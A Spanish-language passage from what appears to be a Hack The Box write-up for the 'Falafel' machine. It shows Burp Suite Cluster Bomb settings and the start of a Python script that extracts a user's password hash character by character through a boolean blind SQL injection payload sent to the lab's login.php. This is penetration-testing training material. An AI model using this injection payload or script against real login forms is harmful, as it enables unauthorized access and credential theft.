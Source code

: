     ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config set 1", out.width="90%"}
    knitr::include_graphics("images/Falafel-ClusterBomb-config-payload1.png")
    ```

1. En el nodo Payloads, seleccionamos el Payload set numero 2
   
    - cambiamos el payload type a Brute forcer
    - cambiamos el Character set a `abcdefghijklmnopqrstuvwxyz` con un Min length de 1 y un Max length de 1
    - sacamos el URL encode del final de la pagina

    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config set 2", out.width="90%"}
    knitr::include_graphics("images/Falafel-ClusterBomb-config-payload2.png")
    ```

1. En el nodo Options En el Grep - Match

    - damos al boton Clear
    - añadimos `Wrong identification`
    
    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config matcher", out.width="90%"}
    knitr::include_graphics("images/Falafel-ClusterBomb-config-matcher.png")
    ```
    
1. Le damos al boton start attack

Aqui vemos que el resultado es un poco complicado pero se podria hacer de esta forma.

#### Cluster Bomb attack version Python {-}

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import pdb
import signal
import time
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://10.10.10.73/login.php"
s = r'abcdef0123456789'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p2 = log.progress("Password")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    password = ""

    for position in range(1, 40):
        for character in s:
            p1.status("Probando caracter %c en la posiciÃ³n %d" % (character, position))
            post_data = {
                'username': "chris' and substring(password,%d,1)='%c'-- -" % (position, character),
                'password': 'admin'
```